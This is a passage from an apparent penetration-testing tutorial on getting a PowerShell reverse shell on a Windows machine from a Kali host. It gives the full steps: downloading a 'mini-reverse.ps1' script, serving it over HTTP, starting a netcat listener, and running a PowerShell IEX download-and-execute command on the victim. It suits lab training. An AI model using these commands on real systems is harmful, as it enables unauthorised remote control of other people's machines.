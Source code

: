 wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEj1wQymdCk9vyC-D3pyKsmOVpFJmdnGvxHNN3CSjKel7OaYlXFyWLAIfEwAb1MMGoJ468Kt3S3iZBtaPDXTjewWovhGzUplpzEIjxH9Plm0zGRSZaoBLnVuDa9tJg36KglVE4etExwKEQsyhoJ5Ck3qp12TkqACqMWaf-jfjhYQJhjGqyyQB6fcM6U05g=s16000)

****We must examine the code within the script and change the IP address provided there to our local IP address (Kali IP address).

Once you’ve finished making changes, save the file and start up the Python server.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEj7UiNinc_SooGhGk9jaKL1ltTdkivTlifk249nTuMQXda6P1bbIZYWJq9Fjl-Ff95EEn5S4c-8dxmg7vNDYeV-CTAypwFk3Y3vgXEPHMwKebfsQwNd_N1SWAzMP03AXuk5OTF_r04Rw4ocZeX2i6XKuZUeD8KYM6g6mnDh4VKCAIH38KimAPjqVPLmXA=s16000)

To obtain a reverse connection, one must first launch a Netcat listener on port 4444.

nc -nvlp 4444

nc -nvlp 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -nvlp 4444
</pre>

Users must enter the following command into the command prompt of the Windows machine. It will ease the execution of the mini reverse file. Keep in mind that the IP address should be your local IP address (Kali IP address). The command will assist us in obtaining the reverse shell.

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/mini-reverse.ps1')

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/mini-reverse.ps1')

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/mini-reverse.ps1')
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEifBUFVSuAEeRS95MjyIVHxYKTmQw_ISnHOM4yMSTh0a50PJVo1ngnsaVa2J_IeYtELZCG3-Y16APDHfJETOJ6HM7L0un7U9yfI2ETD5_z_ZotLXlzFRen_CfDIOCn9sqrR7tDUikwzbUnkzgErTQj0sq5FtIY6dBoUnadwwUYpTl5LmAJ5PfqsoxY9Tg=s16000)

We get the reverse shell in the Netcat listener

![](https://blogger.googleusercontent.com/img/a/AVvXsEg2pKaaWYS1qdxd23z4u18ECTJEMfI_R3h4EGdppe-mFR_zU0npTbfC-5aJbtVYPDxK8aEIwj6vD3fVrfr5NJoYymy4lahkRnqhbH9PIbZj6j_fqRk-RiLugG9pYDbu0aYAyKFEriJUeGxbGwD_j4F30NaGI8LioQu9Whfr0t6F2GKIDGVZnHiuFiaEQA=s16000)

### PowerShell Reverse TCP   

Now just use PowerShell script to communicate with a remote host. Instead of process pipes, all shells in this environment use the Invoke-Expression command. The remote host has complete control over the client at all times.
